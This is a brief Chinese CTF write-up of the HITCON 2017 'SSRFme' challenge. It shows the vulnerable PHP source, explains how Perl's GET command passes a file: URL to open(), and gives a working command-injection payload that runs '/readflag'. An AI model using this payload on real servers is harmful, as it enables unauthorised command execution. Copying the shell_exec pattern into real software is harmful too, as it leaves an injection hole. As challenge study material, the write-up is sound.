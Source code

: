 # \[HITCON 2017]SSRFme

## \[HITCON 2017]SSRFme

## 考点

* perl脚本GET open命令漏洞

## wp

直接给出了代码

```php
<?php
    if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $http_x_headers = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
        $_SERVER['REMOTE_ADDR'] = $http_x_headers[0];
    }

    echo $_SERVER["REMOTE_ADDR"];

    $sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
    @mkdir($sandbox);
    @chdir($sandbox);

    $data = shell_exec("GET " . escapeshellarg($_GET["url"]));
    $info = pathinfo($_GET["filename"]);
    $dir  = str_replace(".", "", basename($info["dirname"]));
    @mkdir($dir);
    @chdir($dir);
    @file_put_contents(basename($info["basename"]), $data);
    highlight_file(__FILE__);
```

pathinfo函数以数组的形式返回关于文件路径的信息，返回的数组元素如下：

* \[dirname]：目录路径
* \[basename]：文件名
* \[extension]：文件后缀名
* \[filename]：不包括后缀的文件名

传入url参数，与`GET` 进行拼接后再执行

传入filename参数，新建filename文件，将执行的结果存在传入的文件中

GET是Lib for WWW in Perl的命令，底层调用了open，pen存在命令执行，并且还支持file函数

读取根目录`?url=/&filename=1`，可以看到得到的目录链接都是`file:///bin/`这种形式

由于是利用file协议，所以后面跟的payload必须以文件的形式存在，所以getshell时后面的filename参数要和执行的命令一样

```
?url=file:bash -c /readflag|&filename=bash -c /readflag|
```

再去访问`sandbox/230317844a87b41e353b096d0d6a5145/bash -c /readflag|`即可
